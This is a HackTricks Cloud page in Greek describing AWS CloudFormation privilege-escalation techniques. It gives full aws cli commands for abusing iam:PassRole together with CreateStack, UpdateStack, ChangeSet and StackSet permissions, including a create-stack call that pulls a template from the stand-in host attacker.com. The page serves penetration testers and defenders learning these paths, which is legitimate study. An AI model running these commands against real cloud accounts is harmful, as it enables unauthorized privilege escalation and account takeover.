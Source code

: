 # AWS - Cloudformation Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudformation

Για περισσότερες πληροφορίες σχετικά με το cloudformation, ελέγξτε:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Ένας επιτιθέμενος με αυτές τις άδειες **μπορεί να κλιμακώσει τα προνόμια** δημιουργώντας ένα **CloudFormation stack** με ένα προσαρμοσμένο πρότυπο, φιλοξενούμενο στον διακομιστή τους, για να **εκτελέσει ενέργειες υπό τις άδειες ενός καθορισμένου ρόλου:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Στην παρακάτω σελίδα έχετε ένα **παράδειγμα εκμετάλλευσης** με την επιπλέον άδεια **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που καθορίζεται.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Σε αυτή την περίπτωση μπορείτε να **καταχραστείτε μια υπάρχουσα στοίβα cloudformation** για να την ενημερώσετε και να κλιμακώσετε τα προνόμια όπως στο προηγούμενο σενάριο:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για να **δώσετε στον εαυτό σας άδεια `UpdateStack`** πάνω σε ένα stack και να εκτελέσετε την επίθεση.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που έχει καθοριστεί.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Εάν έχετε αυτή την άδεια αλλά **όχι `iam:PassRole`**, μπορείτε ακόμα να **ενημερώσετε τα stacks** που χρησιμοποιούνται και να εκμεταλλευτείτε τους **IAM Ρόλους που έχουν ήδη συνημμένους**. Ελέγξτε την προηγούμενη ενότητα για παράδειγμα εκμετάλλευσης (απλά μην υποδείξετε κανέναν ρόλο στην ενημέρωση).

Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για να **δώσετε στον εαυτό σας άδεια `UpdateStack`** πάνω σε ένα stack και να εκτελέσετε την επίθεση.

**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που έχει ήδη συνημμένο.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Ένας επιτιθέμενος με άδειες να **περάσει έναν ρόλο και να δημιουργήσει & εκτελέσει ένα ChangeSet** μπορεί να **δημιουργήσει/ενημερώσει ένα νέο cloudformation stack και να εκμεταλλευτεί τους ρόλους υπηρεσίας cloudformation** ακριβώς όπως με το CreateStack ή UpdateStack.

Η παρακάτω εκμετάλλευση είναι μια **παραλλαγή του**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack) χρησιμοποιώντας τις **άδειες ChangeSet** για να δημιουργήσει ένα stack.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
Η άδεια `cloudformation:SetStackPolicy` μπορεί να χρησιμοποιηθεί για να **δώσετε στον εαυτό σας άδειες `ChangeSet`** πάνω σε ένα stack και να εκτελέσετε την επίθεση.

**Πιθανές Επιπτώσεις:** Privesc σε ρόλους υπηρεσίας cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Αυτό είναι όπως η προηγούμενη μέθοδος χωρίς να περάσετε **ρόλους IAM**, οπότε μπορείτε απλά να **καταχραστείτε αυτούς που είναι ήδη συνδεδεμένοι**, απλά τροποποιήστε την παράμετρο:
```
--change-set-type UPDATE
```
**Πιθανές Επιπτώσεις:** Privesc στον ρόλο υπηρεσίας cloudformation που είναι ήδη συνημμένος.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτές τις άδειες για να δημιουργήσει/ενημερώσει StackSets για να εκμεταλλευτεί αυθαίρετους ρόλους cloudformation.

**Πιθανές Επιπτώσεις:** Privesc στους ρόλους υπηρεσίας cloudformation.

### `cloudformation:UpdateStackSet`

Ένας επιτιθέμενος θα μπορούσε να εκμεταλλευτεί αυτή την άδεια χωρίς την άδεια passRole για να ενημερώσει StackSets για να εκμεταλλευτεί τους συνημμένους ρόλους cloudformation.

**Πιθανές Επιπτώσεις:** Privesc στους συνημμένους ρόλους cloudformation.

## Αναφορές

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
